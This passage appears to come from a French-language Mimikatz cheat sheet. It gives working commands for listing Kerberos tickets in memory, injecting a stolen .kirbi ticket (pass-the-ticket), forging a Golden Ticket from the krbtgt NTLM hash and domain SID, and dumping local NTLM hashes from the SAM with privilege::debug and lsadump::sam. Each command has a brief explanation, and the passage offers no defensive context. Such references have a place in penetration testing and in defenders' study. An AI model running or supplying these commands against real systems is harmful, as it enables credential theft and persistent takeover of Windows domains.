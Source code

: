 ***

#### 1. Liste des Tickets Kerberos en Mémoire

*   **Commande** :

    ```cmd
    kerberos::list
    ```
* **Explication** :
  * Affiche tous les tickets Kerberos en mémoire, y compris les TGT (Ticket-Granting Tickets) et les TGS (Ticket-Granting Service).

***

#### 2. Injecter un Ticket Kerberos

*   **Commande** :

    ```cmd
    kerberos::ptt /path/to/ticket.kirbi
    ```
* **Explication** :
  * Injecte un ticket `.kirbi` dans le système pour accéder à des ressources sans authentification supplémentaire (Pass-the-Ticket).

***

#### 3. Créer un Golden Ticket

*   **Commande** :

    ```cmd
    kerberos::golden /domain:<domain_name> /sid:<domain_sid> /krbtgt:<krbtgt_hash> /user:<username>
    ```
* **Explication** :
  * Génère un **Golden Ticket** pour obtenir un accès persistant à un domaine Windows.
  * Requiert :
    * Le nom de domaine (`<domain_name>`).
    * L'identifiant SID du domaine (`<domain_sid>`).
    * Le hash NTLM du compte KRBTGT (`<krbtgt_hash>`).

***

### 📋 Étape 4 : Exemples de Scénarios

***

#### 1. Extraction des Hashes NTLM du SAM

*   **Commande complète** :

    ```cmd
    privilege::debug
    lsadump::sam
    ```
* **Explication** :
  * Active les privilèges nécessaires et extrait les hashes NTLM des utilisateurs stockés localement.
